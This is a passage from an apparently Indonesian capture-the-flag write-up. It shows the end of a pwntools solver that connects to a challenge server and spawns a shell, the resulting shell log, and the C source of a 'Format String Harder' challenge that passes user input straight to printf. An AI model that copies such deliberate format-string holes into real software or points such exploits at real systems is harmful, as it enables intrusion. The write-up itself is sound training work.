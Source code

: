 ```py
if __name__ == '__main__':
    if len(sys.argv) > 1:
        p = remote('128.199.104.41', 20950)
    else:
        p = process('./stack')
    exploit(p)

```

Jalankan dan didapatkan shell.

```sh
$ python solver.py 
[+] Starting local process './stack': pid 8832
[*] 0x7ffc314ca230
[*] Switching to interactive mode
$ id
uid=1000(abdullahnz) gid=1000(abdullahnz) groups=1000(abdullahnz),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),127(wireshark)
$  
```

### FLAG 

Service mati.
<br/>
<br/>

## 6. Format String Harder [492 pts]

Berikut source code nya.

```c
#include<stdio.h>
#include<stdlib.h>

int main(int argc, char const *argv[])
{
	setvbuf(stdout, NULL, _IONBF, 0);

	char buf[20];
	int* hack_me = malloc(10);
	*hack_me = 5;

	printf("This is the location of the hack_me varible: %lp\n", hack_me);

	puts("Ok now change its value to 420");

	fgets(buf, 20, stdin);
	printf(buf);

	if(*hack_me == 420)
		system("cat flag.txt");
	else
		puts("Sorry you failed");

	return 0;
}

```
